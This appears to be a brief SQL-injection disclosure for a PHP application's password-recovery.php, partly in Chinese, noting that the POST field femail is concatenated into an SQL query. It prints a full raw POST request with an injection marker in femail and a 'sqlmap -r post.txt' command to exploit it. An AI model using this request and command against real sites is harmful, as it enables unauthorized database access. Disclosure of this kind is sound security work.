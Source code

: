 password-recovery.php文件中$femail直接拼接到sql语句中，而$femail是通过POST请求直接获取的


![alt text](password-recovery.php%20sql%20inject-1.png)


POST REQUEST

POST /password-recovery.php HTTP/1.1
Host: test.jc
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Content-Type: application/x-www-form-urlencoded

send=aaa&femail=asd*

SQLmap run
sqlmap -r post.txt


![alt text](password-recovery.php%20sql%20inject-2.png)
